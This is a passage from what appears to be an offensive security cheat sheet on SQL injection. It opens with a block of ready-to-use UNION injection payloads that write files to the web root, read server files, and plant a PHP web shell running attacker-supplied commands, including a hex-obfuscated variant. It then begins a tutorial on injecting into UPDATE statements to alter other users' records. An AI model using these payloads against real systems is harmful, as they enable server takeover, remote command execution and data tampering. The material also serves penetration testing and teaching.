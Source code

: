 ```sql
' # Write a TXT file:
' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
' # Check if the file was created:
' union select 1,load_file('/var/www/html/<PATH>'),3-- -
' # Execute commands:
' union select 1,'<?php system("whoami"); ?>',3-- -
' # Reverse shell (PHP):
' union select 1,"<?php echo shell_exec($_REQUEST['cmd']); ?>", 3 into outfile "/var/www/html/<PATH>/shell.php"-- -
' # Reverse shell (PHP) with clean output (without numbers 1 and 3):
' union select "","<?php echo shell_exec($_REQUEST['cmd']); ?>","" into outfile "/var/www/html/<PATH>/shell.php"-- -
' # Reverse shell obfuscated in hexadecimal:
echo -n '<?php echo "<pre>" . shell_exec($_REQUEST["cmd"]). "</pre>"; ?>' | xxd -ps | tr -d '\n'
' union select 1,unhex("0x<PASTE HEX_STRING>"),3 into outfile "/var/www/html/<PATH>/shell.php"-- -
' # Other payload:
tom" LIMIT 0,1 INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x<PASTE STRING>
```
{% endtab %}
{% endtabs %}

## UPDATE Attack

{% hint style="danger" %}
Remember that in a SQL injection, we cannot use the UPDATE statement, since it is used at the beginning of the SQL query.To take advantage of this statement, we must look for web application features that allow us to change/edit data, such as updating an account name or changing the password.
{% endhint %}

{% tabs %}
{% tab title="Case #1" %}
### Example (SQLite 3)

If an SQL injection occurs in an UPDATE statement, the damage can be much more serious, since it allows changing records within the database. In the employee management application, there is a profile edit page as shown in the following figure:

![](../../../.gitbook/assets/update\_attack1.png)

This edit page allows employees to update their information, but they do not have access to all available fields, and the user can only change their information. If the form is vulnerable to SQL injection, an attacker can bypass the implemented logic and update fields that do not apply to them, or to other users.

Now we will enumerate the database through the UPDATE statement on the profile page. We will assume that we have no prior knowledge of the database. Looking at the source code of the web page, we can identify the possible column names by looking at the name attribute. The columns do not necessarily have to be named that way, but there is a good chance that they will be, and column names such as "email" and "password" are not uncommon and can be easily guessed.

![](../../../.gitbook/assets/update\_attack2.png)
